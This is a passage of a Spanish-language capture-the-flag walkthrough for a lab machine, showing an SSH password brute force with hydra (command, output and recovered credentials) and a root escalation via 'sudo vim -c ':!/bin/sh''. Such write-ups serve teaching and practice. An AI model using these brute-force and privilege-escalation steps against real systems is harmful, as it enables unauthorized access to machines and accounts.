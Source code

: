 Si nos vamos a la ubicacion de `/happy/` veremos una pagina en la que aparentemente no hay nada, pero si inspeccionamos el codigo...

```html
<!-- username: hackathonll >
```

Vemos que nos muestra un `user` por lo que tiraremos un `hydra` con el diccionario que nos proporcionaron en el `ftp`...

```shell
hydra -l hackathonll -P word.dir ssh://<IP>:7223/ -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-24 12:45:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 110 login tries (l:1/p:110), ~2 tries per task
[DATA] attacking ssh://192.168.5.139:7223/
[7223][ssh] host: 192.168.5.139   login: hackathonll   password: Ti@gO
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-24 12:45:23
```

Veremos que las credenciales para conectarnos por `ssh` seran...

```
User = hackathonll
Password = Ti@gO
```

Por lo que nos conectamos por `ssh`...

```shell
ssh hackathonll@<IP>
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for hackathonll on hackathon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hackathonll may run the following commands on hackathon:
    (root) NOPASSWD: /usr/bin/vim
```

Por lo que seremos `root` haciendo lo siguiente...

```shell
sudo vim -c ':!/bin/sh'
```

Y una vez siendo `root` leemos la flag de su `/home/`...

> flag2.txt (flag2)

```
₣Ⱡ₳₲{7e3c118631b68d159d9399bda66fc694}
```
